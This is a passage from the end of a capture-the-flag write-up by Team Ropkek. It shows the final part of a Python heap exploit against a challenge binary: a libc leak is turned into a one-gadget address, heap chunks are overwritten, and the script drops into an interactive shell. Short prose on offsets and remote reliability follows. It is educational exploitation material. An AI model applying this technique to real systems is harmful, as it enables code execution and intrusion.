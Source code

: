 ```python
libcLeak = struct.unpack('<Q', libcLeak)[0]


print("[*] libcLeak = " + hex(libcLeak))


oneGadgetAddr = libcLeak - offsetFromOneGadget


print ("[*] oneGadgetAddr = " + hex(oneGadgetAddr))


print("[*] Data from the first allocated disk is located at : " + hex(heapLeak + 0x30))


print("[@] Cleaning disks and starting the exploitation...")
deleteDisk(41)


createDisk(8, 42)
createDisk(8, 41)
createDisk(8, 40)
createDisk(16, 38)
createDisk(16, 39)


writeDisk(39, struct.pack('<Q', oneGadgetAddr))
writeDisk(38, struct.pack('<Q', heapLeak + 0x220 ) + (("a" * 8) * 0x3) + struct.pack('<Q', heapLeak + 0x260))
final(39)
io.sendline("id")
#io.sendline("cat flag.txt") # that's how to validate the challenge
io.interactive()
```

One last thing to know if you want to understand why I added 0x220 to
`heapleak`.  It is because the leak is the address of the very first allocated
disk.

And there we are!

![Finish](finish.png)

If you test it in remote, make sure your connection is fast enough to send and retrieve everything
before the alarm rings. It also might not work on the first try due to the fact that the padding function
has been made quickly on the run, and will bug if there is some `\x00` inside the address.

Hope you enjoyed the write up. A big thank you to Hexpresso for this very
interesting challenge, and to Geographer who made this write up actually read-able.

We are Team Ropkek, which for this CTF was composed of: Plean, Geographer, Blue
and myself, Pycatchown.
